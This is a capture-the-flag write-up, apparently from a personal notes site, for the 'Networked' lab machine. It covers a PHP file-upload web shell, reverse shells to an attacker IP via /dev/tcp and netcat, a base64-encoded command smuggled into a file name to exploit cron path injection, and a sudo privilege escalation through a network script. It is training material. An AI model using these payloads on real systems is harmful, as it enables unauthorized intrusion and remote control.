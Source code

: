 # Networked \[Easy]

## Report

A file upload vulnerabilty allows us to execute PHP code and obtain a reverse shell. A cronjob executing a script that is vulnerable to path injection and obtain another reverse shell as user 'guly'.

guly can run a network config script as sudo. Any input after a whitespace is executed. A google search would show this. SPwan another shell and become root

## Cheatsheet

```
#Understand file checking process using php -a (Interactive mode)
#Apache config vuln a file with .php extension anywhere will execute the PHP code
vim black.php.jpeg
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
Navigate to uploads/[file]
?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.3%2F9001%200%3E%261

#Revshell from previous shell to become guly
touch 'c; echo bmMgMTAuMTAuMTQuMyA5MDAyIC1lIC9iaW4vYmFzaA== | base64 -d | sh; d'
(nc 10.10.14.3 9003 -e /bin/bash)
Shell kept dying using sh and encoding via base64 was the only way to get stable shell

#guly
sudo /usr/local/sbin/changename.sh
[random input] /bin/bash
#Vulnerability in editing network scripts leads to privesc
```

{% code title="check_attack.php (This was run as a cronjob)" %}
```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```
{% endcode %}

{% code title="changename.sh" %}
```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

```
{% endcode %}

## Loot

### Creds

None lmao

### Proof

#### Web directory Structure

* backup
* uploads
* upload.php
* gallery.php

backup contains source code, upload.php allows file upload and gallery.php allows to access uploaded files

The check\_ip function in check\_attack.php is from lib.php which checks if the file name is from a valid IP. The name of file uploaded is modified at the time itself based on sender IP.

```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &"
```

This line was vulnerable to path injection, and $path was already defined but not $value

{% embed url="https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f" %}

### Pitch Notes

For PrivEsc, we couldn't

* add to sudoers >>
* revshell .
* chown root.txt :&#x20;
* cat root.txt .

The regex prevented us from using the following characters

But you can simply span a shell using `/bin/bash`

\
